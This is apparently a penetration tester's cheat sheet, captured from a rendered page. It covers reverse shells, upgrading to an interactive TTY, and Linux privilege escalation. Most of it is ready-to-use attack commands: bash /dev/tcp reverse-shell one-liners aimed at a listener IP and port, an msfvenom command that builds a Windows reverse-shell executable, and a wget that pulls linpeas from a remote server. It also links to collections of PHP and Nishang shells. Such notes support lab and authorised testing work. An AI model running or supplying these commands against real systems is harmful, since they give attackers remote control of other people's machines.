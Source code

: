 [PHP-Reverse-Shell for Windows and Linux ](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

Bash TCP reverse shell one-liner:
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```

Bash reverse shell one-liner executed as command in Bash:
```
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```

## Windows

[Nishang Shells](https://github.com/samratashok/nishang/tree/master/Shells)

# Interactive Shell 
[Reference](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)
Get an interactive shell 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
export TERM=xterm
```


Hit CTRL + Z


```
stty raw -echo; fg
```

💡in case tty gets weird and line wrappy 💡
```
stty columns 136 rows 32
```

## MSFVenom

Create custom Windows reverse shell 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.152 LPORT=445 -f exe > shell.exe
```
- Applications: service binary replacement, execute with RunasCs access, etc.
# Linux Privilege Escalation 

## Automated

Linpeas
```
wget http://10.10.14.10:3000/linpeas.sh
```
- `./linpeas.sh`
